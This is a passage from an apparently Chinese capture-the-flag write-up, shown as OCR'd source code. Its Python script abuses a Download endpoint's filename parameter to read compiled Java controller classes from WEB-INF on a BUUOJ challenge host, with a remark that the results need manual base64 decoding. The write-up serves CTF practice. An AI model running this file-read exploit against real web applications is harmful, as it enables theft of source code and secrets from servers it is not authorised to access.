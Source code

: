 ```java
    except requests.exceptions.RequestException as e:
        print(f"Request error: {e}")


catalog = "WEB-INF/classes/com/wm/ctf/"

classes = ["IndexController.class",
           "LoginController.class",
           "DownloadController.class",
           "FlagController.class"
           ]
url = f"http://501e1e92-a571-4fae-b8ae-6ce7c2722ed7.node5.buuoj.cn:81/Download?filename={catalog}"

def posts():
    for clas in classes:
        print(f"Now is {clas}")
        url_ = url + clas
        data = {}
        send_post_request(url_, data)
        time.sleep(random.uniform(10, 15))

if  __name__ == "__main__":
    posts()
```

就是最后要手动去base64解码一下


